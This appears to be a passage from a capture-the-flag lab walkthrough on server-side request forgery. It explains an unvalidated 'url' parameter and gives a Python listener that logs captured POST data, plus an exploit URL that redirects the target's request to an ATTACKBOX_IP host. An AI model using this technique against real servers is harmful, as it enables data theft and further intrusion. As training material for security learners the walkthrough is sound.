 - Source code analysis of the page shows that it is reading `url` parameters, and without performing any validation, it sends the information to the server mentioned in the `url` parameter. 
- Here, an attacker can redirect the request to their server, thus getting additional information for exploitation or data pilferage. 
- On your AttackBox, create a new file called `server.py` and add the following code to it:  
    

server.py

```python
from http.server import SimpleHTTPRequestHandler, HTTPServer
from urllib.parse import unquote
class CustomRequestHandler(SimpleHTTPRequestHandler):

    def end_headers(self):
        self.send_header('Access-Control-Allow-Origin', '*')  # Allow requests from any origin
        self.send_header('Access-Control-Allow-Methods', 'GET, POST, OPTIONS')
        self.send_header('Access-Control-Allow-Headers', 'Content-Type')
        super().end_headers()

    def do_GET(self):
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b'Hello, GET request!')

    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length).decode('utf-8')

        self.send_response(200)
        self.end_headers()

        # Log the POST data to data.html
        with open('data.html', 'a') as file:
            file.write(post_data + '\n')
        response = f'THM, POST request! Received data: {post_data}'
        self.wfile.write(response.encode('utf-8'))

if __name__ == '__main__':
    server_address = ('', 8080)
    httpd = HTTPServer(server_address, CustomRequestHandler)
    print('Server running on http://localhost:8080/')
    httpd.serve_forever()
```

- The above code will receive all the content and save it to a file data.html on the server. To obtain the data, we first need to start a lightweight server. We can do this in `AttackBox` by using the following commands:

```shell-session
thm@machine$ sudo chmod +x server.py && sudo python3 server.py
```

- Now open the browser and open `http://hrms.thm/profile.php?url=http://ATTACKBOX_IP:8080`, which will log the data in the `data.html`. Open the `data.html` file, which contains all the essential information related to the server that can be used to launch further attacks.
